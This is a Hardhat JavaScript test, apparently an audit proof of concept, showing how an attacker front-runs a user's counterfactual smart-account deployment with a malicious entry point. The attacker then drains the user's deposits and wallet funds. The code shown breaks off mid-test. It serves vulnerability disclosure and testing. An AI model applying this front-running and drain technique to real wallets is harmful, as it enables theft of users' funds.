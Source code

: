 ```js
import { expect } from "chai";
import { BigNumber } from "ethers";
import { ethers } from "hardhat";

describe("Attack Wallet Deployment", function () {
  it("deployed contract-address is as expected from the user, but the wallet is not safe", async function () {
    const accounts = await ethers.getSigners();

    const user = accounts[1];
    const userAddress = await accounts[1].getAddress();
    const attacker = accounts[2];
    const attackerAddress = await accounts[2].getAddress();

    const SmartAccount = await ethers.getContractFactory("SmartAccount");
    const smartAccount = await SmartAccount.deploy();
    await smartAccount.deployed();

    const SmartAccountFactory = await ethers.getContractFactory("SmartAccountFactory");
    const smartAccountFactory = await SmartAccountFactory.deploy(smartAccount.address);
    await smartAccountFactory.deployed();

    const AttackerEntryPoint = await ethers.getContractFactory("AttackerEntryPoint", attacker);
    const attackerEntryPoint = await AttackerEntryPoint.deploy();
    await attackerEntryPoint.deployed();

    const DefaultCallbackHandler = await ethers.getContractFactory("DefaultCallbackHandler");
    const defaultCallbackHandler = await DefaultCallbackHandler.deploy();
    await defaultCallbackHandler.deployed();

    const userExpectedWalletAddress = await smartAccountFactory.getAddressForCounterfactualWallet(userAddress, 0);
    
    // frontrun the deployment for the user but it is still deployed where the user expects his wallet-address and events are as exoected
    await expect(
      smartAccountFactory.connect(attacker).deployCounterFactualWallet(userAddress, attackerEntryPoint.address, defaultCallbackHandler.address, 0)
    ).to.emit(smartAccountFactory, "SmartAccountCreated")
    .withArgs(userExpectedWalletAddress, smartAccount.address, userAddress, "1.0.2", 0);
    const userSmartAccount = SmartAccount.attach(userExpectedWalletAddress);    
    
    // check that the owner of attackerEntryPoint and wallte of user are fine
    const ownerOfAttackerEntry = await attackerEntryPoint.attacker();
    expect(ownerOfAttackerEntry).eq(attackerAddress);
    const userSmartAccountOwner = await userSmartAccount.owner();
    expect(userSmartAccountOwner).eq(userAddress);
    
    // from now the user is in danger!!! 
    const attackerStartBalance = await attacker.getBalance();
    
    // if he uses the addDeposit() function, he will put the funds in our controlled entryPoint where we can transfer the funds to our attacker
    await userSmartAccount.connect(user).addDeposit({value: BigNumber.from(1000)});
    await attackerEntryPoint.connect(accounts[0]).poisonedWithdrawToOutowner();
    expect(await attacker.getBalance()).eq(BigNumber.from(1000).add(attackerStartBalance));
    
    // we can take control of the owner of the userSmartAccount to drain funds that are in there and are protected from the onlyOwner modifier
    await user.sendTransaction({to: userSmartAccount.address, value: BigNumber.from(2000)});
    await attackerEntryPoint.connect(accounts[0]).takeUserWalletControlAndDrainCurrentFundsIfAvailable(userSmartAccount.address);  

```
